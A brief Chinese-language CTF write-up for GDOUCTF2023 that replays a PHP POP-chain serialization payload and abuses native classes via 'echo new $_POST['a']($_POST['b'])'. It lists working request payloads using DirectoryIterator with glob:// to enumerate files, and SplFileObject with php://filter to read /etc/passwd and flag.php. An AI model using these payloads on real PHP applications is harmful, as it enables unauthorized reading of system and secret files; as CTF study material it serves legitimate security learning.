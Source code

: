 tags:: CTF/PHP/原生类, CTF/WP/GDOUCTF2023

- > 复现
- # POP
	- ```php
	  $t = new teacher("ing", "department");
	  $c = new classroom("one class", $t);
	  $s = new school($c, "ong");
	  
	  echo urlencode(base64_encode(serialize($s)));
	  ```
- # 利用原生类
	- 利用点：`echo new $_POST['a']($_POST['b']);`
	- `a=DirectoryIterator&b=glob://f*`看到flag.php
	- `a=SplFileObject&b=/etc/passwd`可以读取文件的第一行
	- `a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=/proc/self/cwd/flag.php`利用伪协议读取文件